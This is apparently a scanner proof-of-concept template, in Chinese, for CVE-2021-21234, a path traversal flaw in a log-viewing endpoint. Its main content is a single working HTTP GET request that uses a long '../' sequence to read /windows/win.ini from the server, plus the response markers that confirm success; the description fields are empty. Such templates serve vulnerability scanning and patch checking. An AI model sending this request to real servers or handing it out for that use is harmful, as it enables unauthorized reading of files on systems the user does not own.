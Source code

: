 ﻿# CVE_2021_21234_2

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../../../ HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：fonts

> 上传文件定位：

> 验证文件来源：Spring_CVE_2021_21234_2.poc
